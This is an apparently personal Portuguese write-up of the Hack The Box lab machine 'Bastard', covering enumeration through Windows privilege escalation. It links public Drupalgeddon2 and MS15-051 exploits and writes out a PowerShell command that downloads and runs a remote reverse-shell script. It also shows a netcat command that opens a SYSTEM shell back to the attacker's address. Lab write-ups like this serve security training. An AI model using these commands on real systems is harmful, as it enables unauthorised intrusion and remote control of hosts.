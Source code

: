 Bastard
========================

## Enumeration

UDP Scan

![qownnotes-media-TKkGMV](../../../media/qownnotes-media-TKkGMV.png)

Nmap customizado

![qownnotes-media-oWaOdl](../../../media/qownnotes-media-oWaOdl.png)

Nmap full ports

![qownnotes-media-uKoGxs](../../../media/qownnotes-media-uKoGxs.png)

Obtendo info a respeito do serviço

![qownnotes-media-SxBKCW](../../../media/qownnotes-media-SxBKCW.png)

Scan de vulnerabilidade com o nmap

![qownnotes-media-tONqja](../../../media/qownnotes-media-tONqja.png)

Nikto

![qownnotes-media-GAvzOs](../../../media/qownnotes-media-GAvzOs.png)

RPC 

![qownnotes-media-QYqTzH](../../../media/qownnotes-media-QYqTzH.png)

![qownnotes-media-KBtHKx](../../../media/qownnotes-media-KBtHKx.png)

![qownnotes-media-YKqLpd](../../../media/qownnotes-media-YKqLpd.png)

![qownnotes-media-QLGXZu](../../../media/qownnotes-media-QLGXZu.png)

![qownnotes-media-JbMEFB](../../../media/qownnotes-media-JbMEFB.png)

![qownnotes-media-erSURF](../../../media/qownnotes-media-erSURF.png)

![qownnotes-media-UpzcAj](../../../media/qownnotes-media-UpzcAj.png)

## Exploitation

Esse foi o que funcionou

https://github.com/dreadlocked/Drupalgeddon2

![qownnotes-media-GXFPhy](../../../media/qownnotes-media-GXFPhy.png)

![qownnotes-media-YkhuTD](../../../media/qownnotes-media-YkhuTD.png)

![qownnotes-media-nwKYVc](../../../media/qownnotes-media-nwKYVc.png)

![qownnotes-media-AJgdxi](../../../media/qownnotes-media-AJgdxi.png)


Aqui vale considerar um aprendizado. Eu precisava executar coisas no powershell e não estava conseguindo e por isso eu gerei o seguinte payload:

    C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy ByPass -c "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.17/3-exploitation/nishang/Shells/shell2.ps1')"

## PrivEsc

    whoami /priv
    
    systeminfo

![qownnotes-media-KSwpsi](../../../media/qownnotes-media-KSwpsi.png)

Essa máquina foi bem interessante, porque eu tentei um exploit várias vezes e não funcionou por algum problema o qual eu não identifiquei qual é. A exploração foi via kernel mesmo, bem tranquil.o, mas é importante achar o exploit adequado para conseguir a escalação de privilégio. O exploit foi obtido da seguinte maneira:

https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip

Baixei na máquina do windows mesmo e mandei para o kali linux o binário x64.

![qownnotes-media-PctSKC](../../../media/qownnotes-media-PctSKC.png)


    copy \\10.10.14.17\smb\ms15-051x64.exe m.exe
    ./m.exe "whoami"

![qownnotes-media-UYzzRh](../../../media/qownnotes-media-UYzzRh.png)

Vale considerar que pelo powershell aqui não foi possível executar a shell reversa, então fomos de netcat mesmo!
    
    ./m.exe "\\10.10.14.17\smb\nc64.exe -e C:\Windows\System32\cmd.exe 10.10.14.17 8083"
    
![qownnotes-media-RcDQpG](../../../media/qownnotes-media-RcDQpG.png)
